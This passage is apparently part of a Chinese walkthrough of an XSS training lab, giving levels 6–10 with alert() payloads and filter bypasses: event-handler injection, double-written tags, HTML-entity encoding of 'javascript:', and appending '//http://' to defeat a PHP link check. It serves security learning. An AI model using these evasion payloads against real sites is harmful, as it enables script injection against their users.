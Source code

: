 ```javascript
" ONclick='alert(1)'
或者
"><SCRIPT>alert(1)</SCRIPT>
```

## 7、script，on，href以及大小写置空（双写绕过）

```html
"><scripscriptt>alert(2)</scripscriptt>
```

## 8、插入a标签href中（JavaScript伪协议，编码绕过）

尝试使用该语句

```javascript
javascript:alert(1)
```

但是大小写尝试不行，使用编码绕过把ri转成十进制编码

```html
&#114;&#105;
```

最终代码：

```javascript
javasc&#114;&#105;pt:alert(1)
```



## 9、插入a标签href中（JavaScript伪协议，编码绕过）及特定要求

查看源码发现了

```php
if(false===strpos($str7,'http://'))
{
  echo '<center><BR><a href="您的链接不合法？有没有！">友情链接</a></center>';
        }
else
{
  echo '<center><BR><a href="'.$str7.'">友情链接</a></center>';
}
```

也就是说要是链接中没有`http://`就是不合法连接

```javascript
javasc&#114;&#105;pt:alert(1)//http://
```

## 10、隐藏信息，多参数选择

首先查看页面源码有三个参数，
